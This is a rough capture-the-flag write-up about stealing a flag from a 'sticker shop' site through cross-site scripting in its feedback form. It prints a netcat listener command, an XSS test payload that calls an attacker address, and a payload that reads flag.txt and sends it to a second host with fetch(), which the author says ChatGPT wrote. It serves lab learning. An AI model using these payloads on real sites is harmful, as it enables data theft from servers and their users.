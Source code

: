 ROUGH WRITEUP NOT COMPLETE

This CTF is designed around exploiting a cross-site scripitng vulnerablility within the target's website.

## The sticker shop is finally online!

What is the content of flag.txt?

trying to go to the webpage itself is unauthorised

![image](https://github.com/user-attachments/assets/0bffd75c-7c4f-496c-bc18-cbb789c46a2a)

There is a box in feedback to abuse.

![image](https://github.com/user-attachments/assets/e58903a5-a95f-4a97-9d01-8af8565dabe2)

set up a netcat listener on the attacker machine with nc -nvlp 8080

submit a xss attack test to the feedback box:

``` < img src = x onerror="fetch('http://attacker_ip:8080')"/ > ```

This works as follows:

<img src=x> tries to make the website load an image that doesnt exist so it throws an error.

onerror= this is that error and defines what to do when the image fails to load.

fetch= this makes network requests to the IP/URL in the brackets.

All together, the text box is fet a request to open an image that doesnt exist, it cant so it defaults to the error that tells it to send a network request back to the attackers machine. As there is a netcat session listening on the same port, it can recieve a response from the web server, proving there is a vulnerability to be exploited. If there was no reply, it can be taken that the vulnerability was not present.

![image](https://github.com/user-attachments/assets/da4d8e2a-32b4-43d0-8f0c-07709ef530b5)

Knowing this information, I basically fed the question to chatgpt and it provideed me a lovely crafted response with additional lines added onto the initial injected code as seen below:

<img src=x onerror="fetch('http://10.10.100.188:8080/flag.txt').then(response => response.text()).then(data => fetch('http://10.10.239.245:8080/?flag=' + encodeURIComponent(data)))" />

This is very similar to the previous injection, but this time taking data from http:IP_ADDR/flag.txt instead. This would work using this method but not when searched on my own device as this is the website doing a lookup for its own material, therefore it will always have access to it. 


